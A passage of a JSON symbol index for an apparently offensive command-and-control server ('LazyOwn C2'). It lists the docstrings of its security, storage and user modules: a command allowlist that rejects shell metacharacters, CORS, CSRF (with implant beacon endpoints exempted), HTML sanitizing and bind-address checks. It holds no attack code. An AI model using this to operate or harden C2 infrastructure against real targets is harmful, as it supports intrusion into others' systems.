creating it if it doesn't exist.\n\nReturns:\n    A dict mapping short URL keys to their metadata (original_url,\n    active, created_at).", "kind": "function", "line": 33, "name": "load_short_urls", "signature": "def load_short_urls()"}, {"doc": "Save short URLs to JSON file.\n\nArgs:\n    data: Dict mapping short URL keys to their metadata.", "kind": "function", "line": 59, "name": "save_short_urls", "signature": "def save_short_urls(data)"}, {"doc": "Resolve a user-supplied path safely under ALLOWED_BASE_DIR.\n\nArgs:\n    user_path: Raw path supplied by the caller (possibly ``file://``\n        prefixed).\n\nReturns:\n    Absolute safe path if the resolved location is contained under\n    ``ALLOWED_BASE_DIR``, otherwise ``None``.", "kind": "function", "line": 74, "name": "_get_safe_file_path", "signature": "def _get_safe_file_path(user_path)"}, {"doc": "Validate if the input is a valid URL or existing local file path.\n\nArgs:\n    url: URL string or local file path to validate.\n\nReturns:\n    ``True`` when the value is a valid web URL or an existing local\n    file under the allowed base directory.", "kind": "function", "line": 104, "name": "is_valid_url", "signature": "def is_valid_url(url)"}]}, {"doc": "JSON-file storage helpers for the C2 web interface.  Provides load/save helpers for tasks, CVEs, notes, events, notifications, banners, and dynamic routes. All files live under ``sessions/`` and are managed with atomic write patterns.", "id": "lazyc2/extensions/storage.py", "kind": "module", "label": "storage.py", "language": "py", "sha256": "da6b5274d4a1daa7", "symbol_count": 12, "symbols": [{"doc": "Set the session directory path.\n\nArgs:\n    sessions_dir: Path to the session storage directory.", "kind": "function", "line": 18, "name": "configure", "signature": "def configure(sessions_dir)"}, {"doc": "Load tasks from ``sessions/tasks.json``.\n\nReturns:\n    A list of task dicts.", "kind": "function", "line": 31, "name": "load_tasks", "signature": "def load_tasks()"}, {"doc": "Persist tasks to ``sessions/tasks.json``.\n\nArgs:\n    tasks: List of task dicts.", "kind": "function", "line": 45, "name": "save_tasks", "signature": "def save_tasks(tasks)"}, {"doc": "Load CVEs from ``sessions/cves.json``.\n\nReturns:\n    A list of CVE dicts.", "kind": "function", "line": 59, "name": "load_cves", "signature": "def load_cves()"}, {"doc": "Persist CVEs to ``sessions/cves.json``.\n\nArgs:\n    cves: List of CVE dicts.", "kind": "function", "line": 73, "name": "save_cves", "signature": "def save_cves(cves)"}, {"doc": "Load the operator note from ``sessions/notes.txt``.\n\nReturns:\n    A dict with a single ``content`` key.", "kind": "function", "line": 87, "name": "load_note", "signature": "def load_note()"}, {"doc": "Persist the operator note to ``sessions/notes.txt``.\n\nArgs:\n    content: Note body string.", "kind": "function", "line": 107, "name": "save_note", "signature": "def save_note(content)"}, {"doc": "Load event configuration from ``event_config.json``.\n\nReturns:\n    A dict with an ``events`` list, or an empty config.", "kind": "function", "line": 121, "name": "load_event_config", "signature": "def load_event_config()"}, {"doc": "Load notifications from ``sessions/notifications.json``.\n\nReturns:\n    A list of notification dicts.", "kind": "function", "line": 137, "name": "load_notifications", "signature": "def load_notifications()"}, {"doc": "Load banners from ``sessions/banners.json``.\n\nReturns:\n    A list of banner dicts, or ``None`` when the file is absent.", "kind": "function", "line": 154, "name": "load_banners", "signature": "def load_banners()"}, {"doc": "Load dynamic routes from ``sessions/routes_to_templates.json``.\n\nReturns:\n    A dict mapping route paths to template names.", "kind": "function", "line": 179, "name": "load_routes", "signature": "def load_routes()"}, {"doc": "Persist dynamic routes with atomic write and safe permissions.\n\nArgs:\n    routes: Dict mapping route paths to template names.", "kind": "function", "line": 194, "name": "save_routes", "signature": "def save_routes(routes)"}]}, {"doc": "User management utilities for the C2 auth module.  Provides load/save helpers for both the legacy JSON user store and the RBAC-backed store. The RBAC path falls through to lazyc2.py globals during the migration period.", "id": "lazyc2/extensions/users.py", "kind": "module", "label": "users.py", "language": "py", "sha256": "288a32d026fe03d6", "symbol_count": 3, "symbols": [{"doc": "Set the path for the legacy JSON user file.\n\nArgs:\n    users_path: Path to the users JSON file.", "kind": "function", "line": 16, "name": "configure", "signature": "def configure(users_path)"}, {"doc": "Load users from the JSON store or RBAC store.\n\nReturns:\n    A list of user dicts.", "kind": "function", "line": 26, "name": "load_users", "signature": "def load_users()"}, {"doc": "Persist users to the JSON store or RBAC store.\n\nArgs:\n    users: List of user dicts.", "kind": "function", "line": 48, "name": "save_users", "signature": "def save_users(users)"}]}, {"doc": "C2 data models extracted from lazyc2.py.  Breaking the circular dependency between lazyc2.py and blueprints.", "id": "lazyc2/models.py", "kind": "module", "label": "models.py", "language": "py", "sha256": "90d9265f9973f3ad", "symbol_count": 2, "symbols": [{"kind": "class", "line": 16, "name": "User", "signature": "class User(UserMixin)"}, {"kind": "method", "line": 17, "name": "__init__", "signature": "def __init__(self, user_data)"}]}, {"id": "lazyc2/security/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "571a3271c6b3cd1d", "symbol_count": 0, "symbols": []}, {"doc": "Command allowlist policy for the LazyOwn C2 ``/api/run`` endpoint.  Contract: this module gates arbitrary command execution so only commands whose first whitespace-delimited token is on a configurable allowlist can reach the LazyOwn shell. Shell metacharacters are always rejected as a defence-in-depth check independent of the allowlist.  Invariants:  1. The first non-whitespace token of the command is matched against the allowlist in a case-insensitive way. 2. Any of the characters ``;``, ``|``, ``&``, ``$``, ``>``, ``<``, backtick, newline, carriage return, or backslash causes a rejection with reason :class:`CommandRejectionReason.SHELL_METACHAR`. 3. Empty / whitespace / non-string commands reject with reason :class:`CommandRejectionReason.EMPTY`. 4. When ``audit_log_path`` is set, every decision is appended as a single JSON line so the operator can review what was attempted.  Config keys owned:  - ``c2_api_command_allowlist`` (CSV string, default ``\"ping,set,show,help,status,sessions,sitrep,gets,get,downloader,getosession,osession,setar,getar,session,clean\"``)", "id": "lazyc2/security/command_allowlist.py", "kind": "module", "label": "command_allowlist.py", "language": "py", "sha256": "d66c6b9cadfc1828", "symbol_count": 8, "symbols": [{"doc": "Why a command was rejected by :class:`CommandAllowlist`.", "kind": "class", "line": 36, "name": "CommandRejectionReason", "signature": "class CommandRejectionReason(StrEnum)"}, {"doc": "The outcome of a single command allowlist check.\n\nAttributes:\n    allowed: ``True`` if the command may be executed.\n    reason: The rejection reason, or ``None`` when allowed.\n    first_token: The normalized first token, useful for audit logs.", "kind": "class", "line": 48, "name": "CommandDecision", "signature": "class CommandDecision"}, {"doc": "Allowlist gate for the ``/api/run`` endpoint.\n\nArgs:\n    allowed: Iterable of allowed first tokens. Order is irrelevant;\n        matching is case-insensitive.\n    audit_log_path: Optional filesystem path. When provided, every\n        decision is appended as one JSON object per line.", "kind": "class", "line": 70, "name": "CommandAllowlist", "signature": "class CommandAllowlist"}, {"doc": "Return a JSON-serializable dict for the audit log.", "kind": "method", "line": 61, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 82, "name": "__init__", "signature": "def __init__(self, allowed, audit_log_path)"}, {"doc": "Return the immutable set of allowed first tokens (lowercased).", "kind": "method", "line": 94, "name": "allowed", "signature": "def allowed(self)"}, {"doc": "Return the :class:`CommandDecision` for ``command``.\n\nArgs:\n    command: The raw command string from the request.\n\nReturns:\n    A :class:`CommandDecision` describing the outcome. The\n    decision is also written to the audit log if configured.", "kind": "method", "line": 98, "name": "check", "signature": "def check(self, command)"}, {"kind": "method", "line": 126, "name": "_audit", "signature": "def _audit(self, decision, command)"}]}, {"doc": "Security constants and validation patterns for the LazyOwn C2 web layer.  All regex patterns, length limits, and allowlists are defined here to ensure single-source-of-truth and eliminate magic numbers.", "id": "lazyc2/security/constants.py", "kind": "module", "label": "constants.py", "language": "py", "sha256": "4a06d6e9d24c9bea", "symbol_count": 0, "symbols": []}, {"doc": "CORS origin allowlist policy for the LazyOwn C2 web layer.  Contract: this module owns the single source of truth for which origins the C2 web layer and its Socket.IO transport are willing to serve.  Invariants:  1. The wildcard ``\"*\"`` is never permitted; an empty allowlist is allowed only when ``env != \"PROD\"`` and falls back to ``https://{lhost}``. 2. CSV strings are split on comma, trimmed, and empty tokens skipped. 3. ``\"*\"`` tokens inside a CSV are silently dropped (defence in depth). 4. ``is_allowed(origin)`` matches by ``scheme://hostname[:port]`` so the port may differ between the configured origin and the request. 5. ``origins_for_socketio()`` returns the allowlist expanded with the configured ``c2_port`` and the common C2 ports so flask-socketio's exact-match check on the ``Origin`` header passes for the xterm.js and beacon clients. 6. The policy is intentionally immutable: ``resolve_origins()`` can be called repeatedly and returns a fresh list each time.  Config keys owned:  - ``env`` (string, default ``\"DEV\"``) - ``lhost`` (string, used for the dev fallback) - ``c2_port`` (int, used to expand the socketio allowlist) - ``c2_allowed_origins`` (string CSV or list of strings, default ``\"\"``)", "id": "lazyc2/security/cors.py", "kind": "module", "label": "cors.py", "language": "py", "sha256": "a55f0abf37c2e591", "symbol_count": 15, "symbols": [{"doc": "Raised when the CORS configuration is invalid for the current env.", "kind": "class", "line": 46, "name": "CorsConfigError", "signature": "class CorsConfigError(ValueError)"}, {"doc": "Immutable CORS allowlist derived from the LazyOwn runtime config.\n\nArgs:\n    env: Runtime environment tag, usually ``\"PROD\"`` or ``\"DEV\"``.\n    lhost: Loopback or operator-side address used for the dev fallback.\n    allowed_origins: Either a CSV string or a sequence of origins.\n    c2_port: Optional C2 port used to expand the Socket.IO allowlist.\n    extra_socketio_ports: Optional additional ports to include in the\n        Socket.IO expansion. Defaults to the common C2 ports.", "kind": "class", "line": 50, "name": "CorsPolicy", "signature": "class CorsPolicy"}, {"doc": "Return ``True`` if ``candidate`` matches ``allowed`` ignoring port.\n\nArgs:\n    allowed: A configured origin like ``\"https://c2.example:8443\"``.\n    candidate: The ``Origin`` header value to check.\n\nReturns:\n    ``True`` when scheme and hostname match, regardless of port.", "kind": "function", "line": 197, "name": "_origin_matches", "signature": "def _origin_matches(allowed, candidate)"}, {"kind": "function", "line": 221, "name": "_scheme_of", "signature": "def _scheme_of(origin)"}, {"kind": "function", "line": 228, "name": "_host_of", "signature": "def _host_of(origin)"}, {"kind": "method", "line": 70, "name": "__init__", "signature": "def __init__(self, env, lhost, allowed_origins, c2_port, extra_socketio_ports)"}, {"doc": "Return the normalized environment tag (``\"PROD\"`` or ``\"DEV\"``).", "kind": "method", "line": 85, "name": "env", "signature": "def env(self)"}, {"doc": "Return the validated allowlist of origins for the current env.\n\nReturns:\n    A list of origins such as ``[\"https://c2.example\"]``.\n\nRaises:\n    CorsConfigError: when ``env`` is ``\"PROD\"`` and the resolved\n        allowlist is empty.", "kind": "method", "line": 89, "name": "resolve_origins", "signature": "def resolve_origins(self)"}, {"doc": "Return the allowlist to feed ``flask_socketio.SocketIO``.\n\n``flask_socketio`` does an exact match between the request\n``Origin`` header and the list passed as ``cors_allowed_origins``.\nThe browser typically sends the full origin including the port\n(e.g. ``https://127.0.0.1:5000``), so this method expands the\npolicy with the configured ``c2_port`` and the common C2 ports\nso the WebSocket upgrade succeeds.\n\nReturns:\n    A deduplicated list of origins with explicit ports.", "kind": "method", "line": 110, "name": "origins_for_socketio", "signature": "def origins_for_socketio(self)"}, {"doc": "Return ``True`` if ``origin`` matches any allowed entry.\n\nArgs:\n    origin: The ``Origin`` header from the incoming request.\n\nReturns:\n    ``True`` when the origin is in the allowlist (port-insensitive),\n    ``False`` otherwise.", "kind": "method", "line": 136, "name": "is_allowed", "signature": "def is_allowed(self, origin)"}, {"kind": "method", "line": 157, "name": "_socketio_ports", "signature": "def _socketio_ports(self)"}, {"kind": "method", "line": 166, "name": "_collect_candidates", "signature": "def _collect_candidates(self)"}, {"kind": "method", "line": 175, "name": "_clean", "signature": "def _clean(candidates)"}, {"kind": "method", "line": 185, "name": "_dev_fallback_origins", "signature": "def _dev_fallback_origins(self)"}, {"kind": "method", "line": 193, "name": "_dev_fallback", "signature": "def _dev_fallback(self)"}]}, {"doc": "CSRF protection policy for the LazyOwn C2 web layer.  Contract: this module issues per-session tokens that the client must echo back on every mutating request, except for a configured allowlist of exempt paths (login, logout, beacon endpoints).  Invariants:  1. Tokens are 32 URL-safe bytes (43 characters base64-encoded) generated with :func:`secrets.token_urlsafe`. 2. The token store is keyed by session id, so the same session always receives the same token until it is rotated. 3. Validation is constant-time to defeat timing oracles. 4. The exempt set is configurable; ``/login`` and ``/logout`` are always exempt by default, and ``/api/beacon/`` is exempt because implants cannot parse HTML to read a token. 5. ``GET``, ``HEAD``, ``OPTIONS``, and ``TRACE`` requests are treated as safe and bypass the check.  Config keys owned:  - ``c2_csrf_enabled`` (bool, default ``True``) - ``c2_csrf_exempt_paths`` (CSV string, default ``\"/login,/logout,/register,/api/beacon\"``) - ``c2_csrf_header`` (string, default ``\"X-XSRF-TOKEN\"``)", "id": "lazyc2/security/csrf.py", "kind": "module", "label": "csrf.py", "language": "py", "sha256": "431fd3074d41c631", "symbol_count": 11, "symbols": [{"doc": "Per-session CSRF token issuer and validator.\n\nArgs:\n    header: HTTP header name carrying the token from the client.\n    form_field: Form field name used as a fallback for older clients.\n    cookie_name: Cookie name used to seed the client-side read.\n    exempt_paths: Tuple of path prefixes that bypass the check.\n    secret: Optional pre-shared secret. When ``None`` a fresh\n        ``secrets.token_urlsafe(32)`` is generated at construction.", "kind": "class", "line": 48, "name": "CSRFPolicy", "signature": "class CSRFPolicy"}, {"kind": "method", "line": 69, "name": "__init__", "signature": "def __init__(self, header, form_field, cookie_name, exempt_paths, secret)"}, {"doc": "Return the HTTP header name carrying the token.", "kind": "method", "line": 85, "name": "header", "signature": "def header(self)"}, {"doc": "Return the cookie name that should hold the readable token.", "kind": "method", "line": 90, "name": "cookie_name", "signature": "def cookie_name(self)"}, {"doc": "Return the token bound to ``session_id``.\n\nArgs:\n    session_id: The Flask session id; must be a non-empty string.\n\nReturns:\n    A URL-safe token string, stable for the same session id.", "kind": "method", "line": 94, "name": "issue", "signature": "def issue(self, session_id)"}, {"doc": "Force a fresh token for ``session_id``.\n\nArgs:\n    session_id: The session id to rotate.\n\nReturns:\n    The new token.", "kind": "method", "line": 111, "name": "rotate", "signature": "def rotate(self, session_id)"}, {"doc": "Drop the token bound to ``session_id`` (e.g. on logout).", "kind": "method", "line": 126, "name": "forget", "signature": "def forget(self, session_id)"}, {"doc": "Return ``True`` iff ``candidate`` matches the stored token.\n\nArgs:\n    session_id: The session id to look up.\n    candidate: The token echoed back by the client.\n\nReturns:\n    ``True`` when the constant-time comparison succeeds.", "kind": "method", "line": 130, "name": "validate", "signature": "def validate(self, session_id, candidate)"}, {"doc": "Return ``True`` if ``path`` is in the exempt set.\n\nArgs:\n    path: The request path (e.g. ``\"/login\"``).\n\nReturns:\n    ``True`` when any exempt prefix is a prefix of ``path``.", "kind": "method", "line": 147, "name": "is_exempt", "signature": "def is_exempt(self, path)"}, {"doc": "Return the token from a Flask-shaped request.\n\nArgs:\n    request: An object exposing ``headers`` and ``form`` mappings.\n\nReturns:\n    The token string or ``None`` if absent.", "kind": "method", "line": 163, "name": "extract_token", "signature": "def extract_token(self, request)"}, {"doc": "Run the full CSRF gate against a request.\n\nArgs:\n    session_id: The session id derived from the request cookie.\n    request: A Flask-shaped request.\n\nReturns:\n    ``True`` when the request should be allowed, ``False`` otherwise.", "kind": "method", "line": 182, "name": "check_request", "signature": "def check_request(self, session_id, request)"}]}, {"doc": "HTML sanitizer backed by ``bleach`` for the LazyOwn C2 web layer.  Contract: this module is the single source of truth for cleaning operator-supplied HTML before it is rendered. It replaces the previous regex-based approach in :mod:`lazyc2`, which was vulnerable to nested tag and ``javascript:`` URI bypasses.  Invariants:  1. ``<script>``, ``<iframe>``, ``<object>``, ``<embed>``, ``<style>`` and their contents are removed entirely. 2. ``on*`` event handlers are stripped from every element. 3. ``javascript:`` URIs in ``href`` and ``src`` are neutralised. 4. Benign tags (``p``, ``strong``, ``em``, ``ul``, ``ol``, ``li``, ``a``, ``code``, ``pre``, ``h1``..``h6``, ``blockquote``) survive untouched. 5. The allowlist can be overridden by the caller, in which case the defaults from :mod:`lazyc2.security.constants` are not used.  Config keys owned: none (the defaults live in :mod:`lazyc2.security.constants`).", "id": "lazyc2/security/html_sanitizer.py", "kind": "module", "label": "html_sanitizer.py", "language": "py", "sha256": "c562de4bb14773a5", "symbol_count": 2, "symbols": [{"doc": "Remove dangerous element blocks and their contents.\n\nArgs:\n    raw_html: The HTML string to pre-process.\n\nReturns:\n    The HTML with ``<script>``, ``<style>``, ``<iframe>`` and the\n    other dangerous block tags completely removed.", "kind": "function", "line": 62, "name": "_strip_dangerous_blocks", "signature": "def _strip_dangerous_blocks(raw_html)"}, {"doc": "Return a sanitized HTML string safe for ``render_template``.\n\nArgs:\n    raw_html: The HTML to clean. ``None`` or empty returns ``\"\"``.\n    allowed_tags: Optional override for the tag allowlist.\n    allowed_attributes: Optional override for the attribute map.\n\nReturns:\n    The sanitized HTML. Guaranteed to contain no ``<script>``,\n    ``<iframe>``, ``<object>``, ``<embed>``, ``<style>``, ``on*``\n    attributes, ``javascript:`` URIs, or HTML comments.", "kind": "function", "line": 78, "name": "sanitize_html", "signature": "def sanitize_html(raw_html, allowed_tags, allowed_attributes)"}]}, {"doc": "HTTPS redirect policy for the LazyOwn C2 web layer.  Contract: this module produces the response that a Flask ``before_request`` handler must return to force the client onto TLS in PROD, while leaving DEV traffic alone.  Invariants:  1. ``is_secure=True`` requests always pass through. 2. ``is_secure=False`` + ``env=\"PROD\"`` + ``enabled=True`` returns a 301 redirect to the same URL with the scheme replaced by ``https``. 3. ``env=\"DEV\"`` or ``enabled=False`` lets the request pass through. 4. The path, query string, and host header are preserved. 5. The redirect response is a small dataclass so the ``before_request`` handler does not have to import Flask at import time.  Config keys owned:  - ``c2_https_redirect`` (bool, default ``True``) - ``env`` (string, default ``\"DEV\"``)", "id": "lazyc2/security/https_redirect.py", "kind": "module", "label": "https_redirect.py", "language": "py", "sha256": "69e1ee21a5fbf554", "symbol_count": 5, "symbols": [{"doc": "A 301 redirect reply compatible with Flask's ``before_request`` return.\n\nAttributes:\n    status_code: HTTP status code, always 301.\n    location: Target URL the client should follow.", "kind": "class", "line": 29, "name": "RedirectResponse", "signature": "class RedirectResponse"}, {"doc": "Decide whether a request should be upgraded to HTTPS.\n\nArgs:\n    env: Runtime environment tag, usually ``\"PROD\"`` or ``\"DEV\"``.\n    enabled: When ``False``, the policy is a no-op.", "kind": "class", "line": 41, "name": "HTTPSRedirect", "signature": "class HTTPSRedirect"}, {"kind": "method", "line": 51, "name": "__init__", "signature": "def __init__(self, env, enabled)"}, {"doc": "Return ``True`` when the policy is active.", "kind": "method", "line": 56, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Return a redirect response, or ``None`` if the request can pass.\n\nArgs:\n    request: A Flask-shaped request exposing ``is_secure``,\n        ``host``, ``path``, and ``query_string`` attributes.\n\nReturns:\n    A :class:`RedirectResponse` to be returned from\n    ``before_request``; ``None`` if no redirect is required.", "kind": "method", "line": 60, "name": "evaluate", "signature": "def evaluate(self, request)"}]}, {"doc": "Security services for the LazyOwn C2 web layer.  Services encapsulate stateful security operations such as safe file handling, secret generation, and content sanitization.", "id": "lazyc2/security/services.py", "kind": "module", "label": "services.py", "language": "py", "sha256": "fe406dd98fac265f", "symbol_count": 16, "symbols": [{"doc": "Manages the Flask secret key lifecycle.\n\nGenerates a cryptographically secure secret key on first boot and\npersists it to disk with restrictive permissions. Subsequent boots\nload the persisted key. No fallback secrets are permitted.", "kind": "class", "line": 19, "name": "SecretKeyManager", "signature": "class SecretKeyManager"}, {"doc": "Provides safe file read/write operations with path traversal protection.\n\nAll paths are resolved canonically and verified to be within the\nconfigured base directory before any I/O occurs.", "kind": "class", "line": 56, "name": "SafeFileService", "signature": "class SafeFileService"}, {"doc": "Manages AES key generation and validation.\n\nEnsures keys are exactly the required size for AES-256-CFB.", "kind": "class", "line": 152, "name": "AESKeyManager", "signature": "class AESKeyManager"}, {"doc": "Validates upload size constraints.\n\nStateless service that checks content length against configured limits.", "kind": "class", "line": 183, "name": "UploadSizeValidator", "signature": "class UploadSizeValidator"}, {"kind": "method", "line": 30, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Return an existing secret key or generate and persist a new one.\n\nReturns:\n    A hex-encoded secret key string.\n\nRaises:\n    RuntimeError: If the key file exists but cannot be read.", "kind": "method", "line": 33, "name": "get_or_create", "signature": "def get_or_create(self)"}, {"kind": "method", "line": 63, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"doc": "Resolve a relative path safely within the base directory.\n\nArgs:\n    relative_path: A relative path string.\n\nReturns:\n    The resolved Path object.\n\nRaises:\n    PermissionError: If the resolved path escapes the base directory.", "kind": "method", "line": 68, "name": "_resolve_safe", "signature": "def _resolve_safe(self, relative_path)"}, {"doc": "Read a file as bytes after path validation.\n\nArgs:\n    relative_path: Relative path within the base directory.\n\nReturns:\n    File contents as bytes.\n\nRaises:\n    PermissionError: If path traversal is detected.\n    FileNotFoundError: If the file does not exist.", "kind": "method", "line": 86, "name": "read_bytes", "signature": "def read_bytes(self, relative_path)"}, {"doc": "Read a file as text after path validation.\n\nArgs:\n    relative_path: Relative path within the base directory.\n    encoding: Text encoding to use.\n\nReturns:\n    File contents as string.\n\nRaises:\n    PermissionError: If path traversal is detected.\n    FileNotFoundError: If the file does not exist.", "kind": "method", "line": 102, "name": "read_text", "signature": "def read_text(self, relative_path, encoding)"}, {"doc": "Write bytes to a file after path validation.\n\nCreates parent directories if needed.\n\nArgs:\n    relative_path: Relative path within the base directory.\n    data: Bytes to write.\n\nRaises:\n    PermissionError: If path traversal is detected.", "kind": "method", "line": 119, "name": "write_bytes", "signature": "def write_bytes(self, relative_path, data)"}, {"doc": "Check if a path exists after validation.\n\nArgs:\n    relative_path: Relative path within the base directory.\n\nReturns:\n    True if the path exists, False otherwise.\n\nRaises:\n    PermissionError: If path traversal is detected.", "kind": "method", "line": 136, "name": "exists", "signature": "def exists(self, relative_path)"}, {"kind": "method", "line": 158, "name": "__init__", "signature": "def __init__(self, key_file)"}, {"doc": "Return an existing AES key or generate a new one.\n\nReturns:\n    A 32-byte AES key.\n\nRaises:\n    ValueError: If an existing key has an invalid length.", "kind": "method", "line": 161, "name": "get_or_generate", "signature": "def get_or_generate(self)"}, {"kind": "method", "line": 189, "name": "__init__", "signature": "def __init__(self, max_size_bytes)"}, {"doc": "Validate upload size.\n\nArgs:\n    content_length: The content length header value.\n\nRaises:\n    ValueError: If the content length exceeds the maximum.", "kind": "method", "line": 192, "name": "validate", "signature": "def validate(self, content_length)"}]}, {"doc": "Trusted proxy resolver for the LazyOwn C2 web layer.  Contract: this module decides what the real client IP is, taking the ``X-Forwarded-For`` chain into account only when the operator has declared one or more trusted reverse proxies in front of the C2.  Invariants:  1. When ``trusted_count == 0`` the resolver ignores ``X-Forwarded-For`` entirely and returns ``remote_addr``. 2. When ``trusted_count > 0`` the chain is parsed right-to-left; the rightmost ``trusted_count`` entries are considered proxy hops and discarded, and the leftmost remaining address is returned. 3. When the chain is shorter than ``trusted_count`` the resolver falls back to ``remote_addr`` rather than trusting a spoofed header. 4. ``is_operator(ip)`` does an exact-string comparison against the configured allowlist.  Config keys owned:  - ``c2_trusted_proxy_count`` (int, default ``0``) - ``c2_operator_ip_allowlist`` (CSV string, default ``\"127.0.0.1,{lhost}\"``)", "id": "lazyc2/security/trusted_proxy.py", "kind": "module", "label": "trusted_proxy.py", "language": "py", "sha256": "381a400ff78f4816", "symbol_count": 5, "symbols": [{"doc": "Resolve the real client IP from Flask's ``request`` data.\n\nArgs:\n    trusted_count: Number of trusted reverse proxies in front of\n        the C2. Set to ``0`` to disable header parsing.\n    operator_allowlist: Iterable of operator IPs eligible for\n        operator-only routes.", "kind": "class", "line": 30, "name": "TrustedProxyResolver", "signature": "class TrustedProxyResolver"}, {"kind": "method", "line": 42, "name": "__init__", "signature": "def __init__(self, trusted_count, operator_allowlist)"}, {"doc": "Return the configured number of trusted proxy hops.", "kind": "method", "line": 53, "name": "trusted_count", "signature": "def trusted_count(self)"}, {"doc": "Return the resolved client IP.\n\nArgs:\n    remote_addr: Flask's ``request.remote_addr``.\n    x_forwarded_for: The ``X-Forwarded-For`` header value or\n        ``None`` if missing.\n\nReturns:\n    The resolved IP string. Never empty.", "kind": "method", "line": 57, "name": "client_ip", "signature": "def client_ip(self, remote_addr, x_forwarded_for)"}, {"doc": "Return ``True`` when ``ip`` is in the operator allowlist.\n\nArgs:\n    ip: The IP string to test, typically the value returned by\n        :meth:`client_ip`.\n\nReturns:\n    ``True`` for an exact-string match against the allowlist.", "kind": "method", "line": 80, "name": "is_operator", "signature": "def is_operator(self, ip)"}]}, {"doc": "Input validators for the LazyOwn C2 web layer.  All validation functions are pure, stateless, and operate only on primitive types. They return ``(bool, str)`` tuples to enable detailed error messages without raising exceptions.", "id": "lazyc2/security/validators.py", "kind": "module", "label": "validators.py", "language": "py", "sha256": "32381b2020da5801", "symbol_count": 9, "symbols": [{"doc": "Validate a dynamic route path segment.\n\nArgs:\n    route_path: The route path to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 24, "name": "validate_route_path", "signature": "def validate_route_path(route_path)"}, {"doc": "Validate a Jinja2 template filename.\n\nArgs:\n    template_name: The template name to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 46, "name": "validate_template_name", "signature": "def validate_template_name(template_name)"}, {"doc": "Validate a YAML filename for safe loading.\n\nArgs:\n    filename: The filename to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 68, "name": "validate_yaml_filename", "signature": "def validate_yaml_filename(filename)"}, {"doc": "Validate request data length to prevent buffer abuse.\n\nArgs:\n    data: The data string to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 86, "name": "validate_request_data", "signature": "def validate_request_data(data)"}, {"doc": "Validate AES key length.\n\nArgs:\n    key: The AES key bytes to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 102, "name": "validate_aes_key", "signature": "def validate_aes_key(key)"}, {"doc": "Validate password meets minimum length requirement.\n\nArgs:\n    password: The password to validate.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 118, "name": "validate_password_length", "signature": "def validate_password_length(password)"}, {"doc": "Validate upload size against maximum allowed.\n\nArgs:\n    content_length: The content length header value.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 134, "name": "validate_upload_size", "signature": "def validate_upload_size(content_length)"}, {"doc": "Validate that a resolved file path is within a base directory.\n\nUses Path.resolve() to canonicalize paths and Path.relative_to()\nto detect traversal. This is safer than string-based checks.\n\nArgs:\n    file_path: The path to validate (may contain traversal).\n    base_dir: The allowed base directory.\n\nReturns:\n    A tuple of (is_valid, error_message).", "kind": "function", "line": 150, "name": "validate_file_path_within_base", "signature": "def validate_file_path_within_base(file_path, base_dir)"}, {"doc": "Resolve a short-URL target to a file path contained in ``base_dir``.\n\nAccepts ``file://`` URLs and bare filesystem paths. Remote ``http`` /\n``https`` targets are not files, so this returns ``None`` for them and\nthe caller falls back to an HTTP redirect. Symlinks are resolved\nbefore the containment check, so a link inside the base directory\npointing outside is rejected.\n\nArgs:\n    raw_url: Short-URL target as stored in the registry.\n    base_dir: Allowed base directory (sessions directory).\n\nReturns:\n    Resolved absolute path when contained, else None.", "kind": "function", "line": 174, "name": "resolve_contained_file_path", "signature": "def resolve_contained_file_path(raw_url, base_dir)"}]}, {"doc": "Global C2 server state — namespace for shared mutable objects.  Extracted from lazyc2.py to break the circular dependency between lazyc2.py and lazyc2/blueprints/. Both can import this module safely.", "id": "lazyc2/state.py", "kind": "module", "label": "state.py", "language": "py", "sha256": "cb17cd04abd10587", "symbol_count": 0, "symbols": []}, {"id": "lazyc2.py", "kind": "module", "label": "lazyc2.py", "language": "py", "sha256": "c2486fbb44b4cf31", "symbol_count": 284, "symbols": [{"doc": "Return the runtime environment tag from ``payload.json``.\n\nReturns:\n    The value of ``env`` in the payload, uppercased and defaulted\n    to ``\"DEV\"``. The :class:`CorsPolicy` and :class:`HTTPSRedirect`\n    both branch on this value.", "kind": "function", "line": 174, "name": "_env_tag", "signature": "def _env_tag()"}, {"doc": "Check for weak or default credentials", "kind": "function", "line": 186, "name": "is_insecure_credential", "signature": "def is_insecure_credential(user, pwd)"}, {"doc": "Return the bind address chosen by :class:`BindAddressResolver`.\n\nThe resolver receives the operator-supplied ``c2_bind_address`` and\n``lhost`` candidates from ``payload.json`` in priority order. When\nneither parses as a valid IP literal, the resolver falls back to\nthe loopback address unless the operator has explicitly enabled\n``allow_unspecified_bind``, which is the documented opt-in for\nexposing the C2 on every interface.", "kind": "function", "line": 234, "name": "_listen_address", "signature": "def _listen_address()"}, {"doc": "Return True when ``address`` is a wildcard bind literal.\n\nThe C2 must never silently bind to every network interface, so the\nhelper is used as an inline sanitizer at the bind call sites where\nstatic analysis cannot follow the value across functions.\n\nArgs:\n    address: Candidate address literal.\n\nReturns:\n    True when ``address`` is ``0.0.0.0``, ``::`` or the empty\n    string; False otherwise.", "kind": "function", "line": 261, "name": "_is_unspecified_bind_literal", "signature": "def _is_unspecified_bind_literal(address)"}, {"doc": "Return a specific IP literal safe to pass to ``socket.bind``.\n\nWildcard addresses (``\"\"``, ``\"0.0.0.0\"``, ``\"::\"``) are rejected\nusing an inline literal comparison so static analysers recognise\nthe sanitiser. The framework never auto-binds to every interface;\nif the operator wants that behaviour they must put the specific\nNIC address into ``c2_bind_address`` or ``lhost`` in\n``payload.json``. When the candidate is not a parseable IP literal\nthe loopback fallback is returned.\n\nArgs:\n    candidate: Operator-supplied address candidate.\n\nReturns:\n    A specific IPv4/IPv6 literal, defaulting to ``127.0.0.1`` when\n    no valid specific literal can be derived.", "kind": "function", "line": 280, "name": "_select_specific_bind_address", "signature": "def _select_specific_bind_address(candidate)"}, {"doc": "Probe whether ``(address, port)`` can be bound for ``sock_type``.\n\nThe probe creates a transient socket, attempts the 